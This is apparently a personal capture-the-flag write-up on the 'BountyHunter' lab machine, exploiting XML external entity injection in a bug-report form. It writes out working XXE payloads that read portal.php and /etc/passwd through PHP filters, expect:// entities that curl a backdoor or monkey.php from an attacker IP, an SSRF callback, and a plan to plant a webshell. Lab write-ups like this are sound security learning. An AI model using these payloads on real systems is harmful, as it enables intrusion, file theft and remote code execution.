 # BountyHunter Notes

## Data 

IP: 
OS: [Ubuntu Focal](https://launchpad.net/ubuntu/+source/openssh/1:8.2p1-4ubuntu0.2)  
Hostname: 
Machine Purpose: 
Services: 22 - SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.2, 80 - openfire
Service Languages:
Users:
Credentials:

## Objectives

## Target Map

## Solution Inventory Map


### Todo 

openfire version


### Done
      
- log_submit -> bountylog.js
	- xml enitity injection in bountylog.js -> tracker_diRbPr00f314 (db.php is not populated or added, but this file presents submitted data as a reflect html table)

- No login portal.php states log_submit
- Scripts is just Bootstrap

xml external entity injection

log_submit.php
```html
<html>
<head>
<script src="/resources/jquery.min.js"></script>
<script src="/resources/bountylog.js"></script>
</head>
<center>
<h1>Bounty Report System - Beta</h1>
<input type="text" id = "exploitTitle" name="exploitTitle" placeholder="Exploit Title">
<br>
<input type="text" id = "cwe" name="cwe" placeholder="CWE">
<br>
<input type="text" id = "cvss" name="exploitCVSS" placeholder="CVSS Score">
<br>
<input type="text" id = "reward" name="bountyReward" placeholder="Bounty Reward ($)">
<br>
<input type="submit" onclick = "bountySubmit()" value="Submit" name="submit">
<br>
<p id = "return"></p>
<center>
</html>
```

which passes data to bountylog.js
```js
function returnSecret(data) {
        return Promise.resolve($.ajax({
            type: "POST",
            data: {"data":data},
            url: "tracker_diRbPr00f314.php"
            }));
}

async function bountySubmit() {
        try {
	                var xml = `<?xml  version="1.0" encoding="ISO-8859-1"?>
                <bugreport>
                <title>${$('#exploitTitle').val()}</title>
                <cwe>${$('#cwe').val()}</cwe>
                <cvss>${$('#cvss').val()}</cvss>
                <reward>${$('#reward').val()}</reward>
                </bugreport>`
                let data = await returnSecret(btoa(xml));
                $("#return").html(data)
        }
        catch(error) {
                console.log('Error:', error);
        }
}
```

that send data to tracker_diRbPr00f314.php that returns back to log_submit.php as [.html()](https://www.w3schools.com/jquery/html_html.asp) to set content overwriting the contents of ALL matched elements
```html
If DB were ready, would have added:
<table>
  <tr>
    <td>Title:</td>
    <td></td>
  </tr>
  <tr>
    <td>CWE:</td>
    <td></td>
  </tr>
  <tr>
    <td>Score:</td>
    <td></td>
  </tr>
  <tr>
    <td>Reward:</td>
    <td></td>
  </tr>
</table>
```

This code POSTs our `data`  as JSON to tracker_diRbPr00f314.php, which if db.php were ready would display our data in a table. As that does not happen we need to control either the:
- title
- cwe
- cvss
- reward
forms which are evaluated by [jqeury val() method ](http://api.jquery.com/val/) that will *"Get the current value of the first element in the set of matched elements or set the value of every matched element."*

[btoa](https://developer.mozilla.org/en-US/docs/Web/API/btoa) *method creates a [Base64](https://developer.mozilla.org/en-US/docs/Glossary/Base64)-encoded ASCII string from a binary string (i.e., a string in which each character in the string is treated as a byte of binary data).* I cant stop thinking about [Senor JS Dev using promises](https://youtu.be/Uo3cL4nrGOk?t=86) then using callbacks. Thanks to the extensive time rewritting their code base *joke*, please watch the linked video we get our data reflected back

reflectedback.png


We can retrieve files with php wrappers
```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=portal.php"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>&xxe;</cwe>
		<cvss>&xxe;</cvss>
		<reward>&xxe;</reward>
		</bugreport>
```

For here on I caught the request with proxy and used decoder instead of repeater: decoder  `base64 encode` paste into request ` url encode on caught request -> forward`

xxefileretrievealwithphpwrappers.png

retrievetheportaldotphpfileanddecoded.png

Before trying the flashy RCE with php `expect://`  SSRF from  [airman604](https://airman604.medium.com/from-xxe-to-rce-with-php-expect-the-missing-link-a18c265ea4c7). I tried the /etc/passwd for username then get ssh id_rsa

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>&xxe;</cwe>
		<cvss>&xxe;</cvss>
		<reward>&xxe;</reward>
		</bugreport>
```

For the development user
b64decodepasswd.png

But no id_rsa...


```xml
<!DOCTYPE root [  
  <!ENTITY file SYSTEM "expect://curl$IFS-O$IFS'1.3.3.7:8000/backdoor.php'">  
]>
```
converting the above
```xml
<!DOCTYPE root [<!ENTITY xxe SYSTEM "expect://curl$IFS-O$IFS'10.10.14.106/monkey.php'">]>
		<bugreport>
		<title>&xxe</title>
		<cwe>0</cwe>
		<cvss>0</cvss>
		<reward>0</reward>
		</bugreport>
```
The above failed and trying the following all failed
```xml
RCE
<!DOCTYPE root [<!ENTITY xxe SYSTEM "expect://curl '10.10.14.106/monkey.php'">]>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "expect://curl$IFS10.10.14.106/monkey.php">]>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "expect://ls$IFS">]>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "expect://ls">]>
SSRF
<!DOCTYPE root [<!ENTITY xxe SYSTEM "http://10.10.14.106/test">]>
```



I was not checking so one of my payload did work as we have 8 requests - 11 minutes ago..
Iamidiot.png
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "http://10.10.14.106/test">]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>&xxe;</cwe>
		<cvss>&xxe;</cvss>
		<reward>&xxe;</reward>
		</bugreport>
```

I still cant make expect work.
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "expect://pwd" >]>
```

Standup a webpage that forces download of a webshell

https://www.socketloop.com/tutorials/golang-force-download-file-example

https://gist.github.com/jmcarp/9291539, we require https://blog.logrocket.com/programmatic-file-downloads-in-the-browser-9a5186298d5c/
```js
function forceDownload(href) {
	var anchor = document.createElement('a');
	anchor.href = href;
	anchor.download = href;
	document.body.appendChild(anchor);
	anchor.click();
}
```


https://swisskyrepo.github.io/PayloadsAllTheThings/XXE%20Injection/#tools
https://airman604.medium.com/from-xxe-to-rce-with-php-expect-the-missing-link-a18c265ea4c7
https://infosecwriteups.com/xml-external-entity-xxe-injection-payload-list-937d33e5e116
https://portswigger.net/web-security/xxe